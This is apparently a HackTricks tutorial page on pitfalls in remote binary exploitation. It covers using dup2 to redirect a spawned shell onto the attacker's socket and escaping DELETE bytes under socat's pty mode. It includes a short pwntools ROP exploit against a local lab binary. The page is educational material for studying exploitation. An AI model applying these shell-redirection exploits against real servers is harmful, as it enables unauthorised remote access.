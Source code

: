 # Common Exploiting Problems

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## FDs in Remote Exploitation

When sending an exploit to a remote server that calls **`system('/bin/sh')`** for example, this will be executed in the server process ofc, and `/bin/sh` will expect input from stdin (FD: `0`) and will print the output in stdout and stderr (FDs `1` and `2`). So the attacker won't be able to interact with the shell.

A way to fix this is to suppose that when the server started it created the **FD number `3`** (for listening) and that then, your connection is going to be in the **FD number `4`**. Therefore, it's possible to use the syscall **`dup2`** to duplicate the stdin (FD 0) and the stdout (FD 1) in the FD 4 (the one of the connection of the attacker) so it'll make feasible to contact the shell once it's executed.

[**Exploit example from here**](https://ir0nstone.gitbook.io/notes/types/stack/exploiting-over-sockets/exploit):

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = remote('localhost', 9001)

rop = ROP(elf)
rop.raw('A' * 40)
rop.dup2(4, 0)
rop.dup2(4, 1)
rop.win()

p.sendline(rop.chain())
p.recvuntil('Thanks!\x00')
p.interactive()
```

## Socat & pty

Note that socat already transfers **`stdin`** and **`stdout`** to the socket. However, the `pty` mode **include DELETE characters**. So, if you send a `\x7f` ( `DELETE` -)it will **delete the previous character** of your exploit.

In order to bypass this the **escape character `\x16` must be prepended to any `\x7f` sent.**

**Here you can** [**find an example of this behaviour**](https://ir0nstone.gitbook.io/hackthebox/challenges/pwn/dream-diary-chapter-1/unlink-exploit)**.**

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

